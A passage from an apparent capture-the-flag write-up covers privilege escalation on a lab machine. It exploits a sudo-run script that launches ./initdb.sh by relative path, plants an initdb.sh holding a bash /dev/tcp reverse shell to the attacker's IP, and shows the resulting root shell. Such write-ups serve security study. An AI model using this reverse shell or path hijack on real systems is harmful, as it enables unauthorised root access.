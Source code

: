 Let's dig into `/usr/bin/syscheck`

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

We can see it runs the `initdb.sh` script if it's not running yet (a simple check will tell us there's no process running associated with the script)
Let's create a simple initdb.sh script which run a revshell (you can also invoke bash again if you want)

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.80/9002 0>&1
```

We run the script

```
bash-5.2$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.04, 0.03, 0.00
Database service is not running. Starting it...
```

We are root

```
┌─[tobaka@parrot]─[~/.ssh]
└──╼ $nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.10.14.81] from (UNKNOWN) [10.10.11.8] 41014
root@headless:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
```

---
